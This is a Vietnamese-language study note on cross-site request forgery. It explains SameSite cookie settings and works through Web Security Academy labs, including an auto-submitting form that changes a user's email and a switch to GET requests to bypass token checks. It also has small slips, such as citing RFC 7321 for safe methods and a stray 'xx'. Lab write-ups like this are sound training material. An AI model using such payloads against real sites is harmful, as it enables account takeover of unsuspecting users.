 - `SameSite Cookie`: Thuộc tính cookie SameSite đi kèm với ba giá trị có thể - `Strict`, `Lax`, or `None`.
Phần lớn các trình duyệt dành cho thiết bị di động và tất cả các trình duyệt dành cho máy tính để bàn đều hỗ trợ thuộc tính này.
  - Nếu `SameSite = Strict`. Về mặt người dùng, cookie sẽ chỉ được gửi nếu trang web dành cho cookie khớp với trang web hiện được hiển thị trên thanh URL của trình duyệt.
  
  ![](./img_csrf/9.png)

  - Nếu `SameSite = Lax` Khi bạn đặt thuộc tính SameSite của cookie thành Lax, cookie sẽ được gửi cùng với GET request được tạo bởi bên thứ 3.
  xx
    - Chỉ chấp nhận GET request, thực ra thì nó chấp nhận các phương thức request khác như GET, HEAD, OPTIONS, TRACE. Vì đây chính là các kiểu request được cho là "An Toàn" được định nghĩa trong phần 4.2.1 của RFC 7321. Nhưng ở đây chúng ta chỉ quan tâm đến GET request mà thôi.

## **LAB CSRF** ##

> ### **CSRF vulnerability with no defenses**

- Đề bài đã yêu câu chúng ta phải tạo một script để thay đổi email người dùng khi nhập vào một url.
- script như sau :

```javascript
<form method="POST" action="https://0a7f00a203b4d7f4c1824a2700b700ca.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="admin@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

- Khi người dùng nhập vào url thì nó sẽ thực hiện bắt chéo trang web và gửi request đến và thay đổi mật khẩu người dụng.

> ### **CSRF where token validation depends on request method**

- Sau khi đọc source ta đã thấy đối với bài này chúng ta cần có mã csrf token để xác thực nếu không request sẽ bị từ chối.

![](./img_csrf/csrf-2.png)

- Nhưng có một điều lạ ở đây nếu tôi tạo một csrf có phương thức `POST` kết quả đã thay đổi được email thành công. Nhưng nó thành công đối với tk của chính mình còn đối việc thay đổi tài khoản người dùng thì điều này sẽ khác vì mỗi tài khoản sẽ có csrf token riêng nếu mình dùng phương thức post thì mình không thể thay đổi email người dùng và chiếm quyền kiểm soát tài khoản. Chính vì thế, tôi đã thử với phương thức `GET` xem điều này có hoạt động thành công tấn công csrf hay không. Và nó đã thành công tấn công được.
